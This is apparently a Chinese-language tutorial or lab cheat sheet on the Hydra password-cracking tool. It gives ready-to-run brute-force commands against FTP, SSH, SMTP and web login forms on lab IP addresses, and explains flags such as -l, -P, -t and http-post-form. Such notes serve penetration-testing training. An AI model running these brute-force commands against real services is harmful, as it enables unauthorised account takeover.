 # Hydra



传递给 Hydra 的选项取决于我们正在攻击的服务（协议）。例如，如果我们想使用用户名 user 和密码列表 passlist.txt 来暴力破解 FTP，我们将使用以下命令：

## ftp:21
```bash
hydra -l user -P passlist.txt ftp://10.10.218.216
```



## ssh:22

```bash
hydra -l <username> -P <full path to pass> 10.10.218.216 -t 4 ssh
```



```bash
hydra -l root -P passwords.txt 10.10.218.216 -t 4 ssh

Hydra 将使用 root 作为 ssh 的用户名
它将尝试 passwords.txt 文件中的密码
将有四个线程并行运行，如 -t 4 所示
```

## SMTP:25

```bash
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
```


## webform

也可以使用 Hydra 来暴力破解 Web 表单。您必须知道它正在发出哪种类型的请求；通常使用 GET 或 POST 方法。您可以使用浏览器的网络选项卡（在开发人员工具中）查看请求类型或查看源代码。

```bash
sudo hydra <username> <wordlist> 10.10.218.216 http-post-form "<path>:<login_credentials>:<invalid_response>"
```



```bash
hydra -l <username> -P <wordlist> 10.10.218.216 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

登录页面只有 / ，即主 IP 地址。
username 是输入用户名的表单字段
指定的用户名将替换 ^USER^
password 是输入密码的表单字段
提供的密码将替换 ^PASS^
最后， F=incorrect 是登录失败时回显页面出现在服务器回复中的字符串

```

